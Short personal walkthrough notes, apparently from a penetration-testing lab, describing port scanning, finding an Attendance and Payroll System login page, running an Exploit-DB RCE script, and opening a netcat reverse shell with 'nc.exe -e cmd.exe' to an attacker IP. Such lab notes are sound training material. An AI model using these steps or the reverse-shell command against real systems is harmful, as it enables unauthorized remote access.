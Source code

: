 
- Install an automated scanner such as AutoRecon, NmapAutomator, FScan
- Scanned the MS01 and got a bunch of open ports. Looked at all the HTTP ports to visit the pages, then dirsearched on the pages to find additional pages to visit such as a login page.
- There was a page on port 81, that had a login page. 
- When looking at the source code, there was a title that was called Attendance and Payroll System.
- Googled Attendance and Payroll System vulnerabilities and RCE to find a script on Exploit-DB.
- Look at the file path in the exploit and compare to what is given back to you on the actual website (remove apsystem from the file path to make exploit work)
- Command was: sudo python3 "Exploit-DB edited script" http://IPAddr:81
- Upload a nc.exe listener to upgrade your shell
- command syntax is: nc.exe -e cmd.exe myIP listener port (nc.exe -e cmd.exe 192.168.45.241 8888)
- ![[Pasted image 20230821135938.png]]